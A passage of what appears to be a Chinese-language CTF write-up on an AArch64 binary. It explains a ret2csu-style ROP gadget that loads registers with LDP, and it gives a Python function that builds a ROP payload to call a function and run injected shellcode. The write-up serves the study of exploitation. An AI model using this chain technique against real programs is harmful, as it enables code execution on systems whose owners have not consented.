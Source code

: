 [![](assets/1703209924-8423314eae7442ac05747e6ef846bab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164910-cecc7158-9fdd-1.png)  
然后这里就是类似于csu的gadget

[![](assets/1703209924-323a36973c3703f0bf3dee0bb24ed3f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164917-d34ee9b8-9fdd-1.png)  
这一段LDP X19, X20, \[SP,#var\_s10\]  
意思是将sp+0x10处数据给x19，sp+0x18处数据给0x20  
以此类推，后面的汇编表示的是：  
将sp+0x20处数据给x21，sp+0x28处数据给0x22  
将sp+0x30处数据给x23，sp+0x38处数据给0x24  
将sp处数据给x29，sp+0x8处数据给x30  
RET ; 返回x30寄存器中存放的地址/PC  
这一段的作用就是赋值

[![](assets/1703209924-d66e8502c8331bcc127a09d1aa8872d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164929-da334b02-9fdd-1.png)  
然后这一段就是利用x21，x22，x23，x24分别向x3，x2，x1，x0赋值，然后跳转到x3的地址，然后比较x19与x20，相等不跳转  
第一次read输入shellcode，然后第二次用csu去调用相应的函数和shellcode

```plain
def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl
```
